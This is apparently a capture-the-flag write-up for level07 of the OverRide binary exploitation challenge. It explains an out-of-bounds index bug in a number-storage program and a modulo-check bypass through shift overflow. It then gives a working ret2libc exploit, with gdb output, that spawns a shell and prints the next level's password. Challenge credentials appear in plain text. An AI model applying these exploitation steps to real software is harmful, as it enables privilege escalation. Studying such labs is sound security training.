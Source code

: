 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. It creates a static array of 400 bytes fo data of storage. It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.
`store_number()` receives a pointer to `data` array and store a number to the given index. Indexes which are modulo 3 and 183rd index are reserved and cannot be assignable.
`read_number()` receive a pointer to `data` array and read the number stored in the given index.
In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.
The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .
On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

In the binary representation (32 bits), value `114` looks like:
```
0000 0000   0000 0000   0000 0000   0111 0010
```
Shift operation is destructive. Excess bits shifted off to the left are discarded, and zero bits are shifted in from the right.
Knowing that `store_number()` use rigth-shift operation (multiplication x4) `data[index << 2] = number`, first two MSB bits can be set switch on.

In the first time it will make pass the condition %3, and in the second time at the time of <<2 will result in index 456
| Binary value                                    | Decimal value  | Modulo result | Usable | Binary value after shift <<2                    | Decimal value after shift <<2 |
|-------------------------------------------------|----------------|---------------|--------|-------------------------------------------------|-------------------------------|
| `0100 0000   0000 0000   0000 0000   0111 0010` | 1073741938     | 1             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1000 0000   0000 0000   0000 0000   0111 0010` | 2147483762     | 2             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1100 0000   0000 0000   0000 0000   0111 0010` | 3221225586     | 0             | No     | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```
Decimal values can be stored in data storage following by `quit` command to return from `main()` into a new shell process.

| Value     | Address     | Decimal value | Index                      |
|-----------|-------------|---------------|----------------------------|
| system()  | 0xf7e6aed0  | 4159090384    | 114(1073741938,2147483762) |
| exit()    | 0xf7e5eb70  | 4159040368    | 115                        |
| "/bin/sh" | 0xf7f897ec  | 4160264172    | 116                        |

# Exploit
With index 1073741938
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n1073741938\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
With index 2147483762
```shell
level07@OverRide:~$ (echo -e "store\n4159090384\n2147483762\nstore\n4159040368\n115\nstore\n4160264172\n116\nquit"; cat -) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
id
uid=1007(level07) gid=1007(level07) euid=1008(level08) egid=100(users) groups=1008(level08),100(users),1007(level07)
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
